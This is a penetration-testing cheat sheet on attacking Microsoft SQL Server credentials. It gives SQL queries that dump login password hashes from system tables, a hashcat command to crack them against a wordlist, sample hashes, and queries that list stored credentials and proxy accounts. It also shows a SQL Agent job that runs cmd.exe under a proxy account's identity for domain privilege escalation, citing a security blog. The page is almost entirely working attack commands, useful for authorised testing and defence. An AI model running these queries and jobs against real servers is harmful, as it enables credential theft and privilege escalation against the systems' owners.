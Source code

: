 # MSSQL - Credentials

## Summary

* [MSSQL Accounts and Hashes](#mssql-accounts-and-hashes)
* [List Credentials on the SQL Server](#list-credentials-on-the-sql-server)
* [Proxy Account Context](#proxy-account-context)

## MSSQL Accounts and Hashes

* MSSQL 2000

    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)
    ```

* MSSQL 2005

    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```

Then crack passwords using Hashcat : `hashcat -m 1731 -a 0 mssql_hashes_hashcat.txt /usr/share/wordlists/rockyou.txt --force`

| Hash-Mode | Hash-Name | Example |
| ---  | --- | --- |
| 131  | MSSQL (2000) | 0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578 |
| 132  | MSSQL (2005) | 0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe |
| 1731 | MSSQL (2012, 2014) | 0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375 |

## List Credentials on the SQL Server

* List credentials configured on the SQL Server instance

    ```sql
    SELECT * FROM sys.credentials 
    ```

* List proxy accounts

    ```sql
    USE msdb; 
    GO 

    SELECT  
        proxy_id, 
        name AS proxy_name, 
        credential_id, 
        enabled 
    FROM  
        dbo.sysproxies; 
    GO 
    ```

* [dataplat/dbatools/Get-DecryptedObject.ps1](https://github.com/dataplat/dbatools/blob/7ad0415c2f8a58d3472c1e85ee431c70f1bb8ae4/private/functions/Get-DecryptedObject.ps1)

## Proxy Account Context

Agent Job using the registered proxy credential.

```sql
USE msdb; 
GO 

-- Create the job 
EXEC sp_add_job  
  @job_name = N'WhoAmIJob'; -- Name of the job 

-- Add a job step that uses the proxy to execute the whoami command 
EXEC sp_add_jobstep  
  @job_name = N'WhoAmIJob',  
  @step_name = N'ExecuteWhoAmI',  
  @subsystem = N'CmdExec',          
  @command = N'c:\windows\system32\cmd.exe /c whoami > c:\windows\temp\whoami.txt',           
  @on_success_action = 1,         -- 1 = Quit with success 
  @on_fail_action = 2,                     -- 2 = Quit with failure 
  @proxy_name = N'MyCredentialProxy';     -- The proxy created earlier 

-- Add a schedule to the job (optional, can be manual or scheduled) 
EXEC sp_add_jobschedule  
  @job_name = N'WhoAmIJob',  
  @name = N'RunOnce',  
  @freq_type = 1,             -- 1 = Once 
  @active_start_date = 20240820,       
  @active_start_time = 120000;            

-- Add the job to the SQL Server Agent 
EXEC sp_add_jobserver  
  @job_name = N'WhoAmIJob',  
  @server_name = N'(LOCAL)';  
```

Execute the Agent job so that a process will be started in the context of the proxy account and execute your code/command.
`EXEC sp_start_job @job_name = N'WhoAmIJob';`

## References

* [Hijacking SQL Server Credentials using Agent Jobs for Domain Privilege Escalation  - Scott Sutherland - September 10, 2024](https://www.netspi.com/blog/technical-blog/network-pentesting/hijacking-sql-server-credentials-with-agent-jobs-for-domain-privilege-escalation/)
